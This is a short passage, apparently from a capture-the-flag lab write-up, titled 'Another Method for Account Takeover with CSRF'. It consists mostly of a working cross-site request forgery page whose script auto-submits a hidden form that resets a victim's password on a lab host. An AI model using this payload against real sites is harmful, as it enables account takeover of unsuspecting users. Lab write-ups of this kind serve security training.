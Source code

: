 ![image.png](image%2017.png)

> **Another Method for Account Takeover with CSRF**
> 

`nano malhtml.html`

```bash
<!DOCTYPE html>
<html>
<head>
	<title>CSRF</title>
</head>
<body>
<form id="autosubmit" action="http://login.worldwap.thm/change_password.php" enctype="application/x-www-form-urlencoded" method="POST">
 <input name="new_password" type="hidden" value="password" />
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
</body>
</html>
```
